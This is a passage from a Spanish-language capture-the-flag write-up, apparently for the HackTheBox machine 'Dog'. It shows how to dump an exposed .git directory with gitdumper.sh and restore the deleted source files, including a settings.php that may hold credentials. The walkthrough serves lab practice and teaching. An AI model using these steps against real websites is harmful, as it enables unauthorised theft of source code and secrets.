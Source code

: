 ~~~ bash
    "update_requirement_type": 0,
    "update_status": [],
    "update_projects": []
}
~~~
<br>


# Intrusión / Explotación
---
## Abusing Git Exposed Repository

> Una ruta `.git`, contiene toda la  **historia, configuración y estructura interna de un repositorio** Git. 
{: .notice--info}

Con acceso a esta ruta, podremos reconstruir el repositorio y ver el historial de archivos, existe la posibilidad de encontrar credenciales o información sensible. 

Utilizaremos herramientas como [`GitTools`](https://github.com/internetwache/GitTools) o el comando `wget` para descargar los archivos expuestos del repositorio

~~~ bash
./gitdumper.sh http://dog.htb/.git/ repo-files
~~~

Hemos creado un directorio `repo-files`, y dentro de éste se ubica el directorio `.git`. Si vemos las modificaciones que se han realizado en este repositorio, podremos darnos cuenta que se han eliminado los archivos

~~~ bash
cd repo-files
git status
~~~

Restauraremos los archivos al último `commit`, eliminando las modificaciones realizadas sin guardar

~~~ bash
git restore .
~~~

Al completar la restauración, veremos los archivos que habían sido borrados

~~~ bash
ls -l 

total 60
drwxr-xr-x 1 root root   222 Jun 29 15:33 core
drwxr-xr-x 1 root root   146 Jun 29 15:33 files
-rwxr-xr-x 1 root root   578 Jun 29 15:33 index.php
drwxr-xr-x 1 root root    18 Jun 29 15:33 layouts
-rwxr-xr-x 1 root root 18092 Jun 29 15:33 LICENSE.txt
-rwxr-xr-x 1 root root  5285 Jun 29 15:33 README.md
-rwxr-xr-x 1 root root  1198 Jun 29 15:33 robots.txt
-rwxr-xr-x 1 root root 21732 Jun 29 15:33 settings.php
drwxr-xr-x 1 root root    36 Jun 29 15:33 sites
drwxr-xr-x 1 root root    18 Jun 29 15:33 themes
~~~
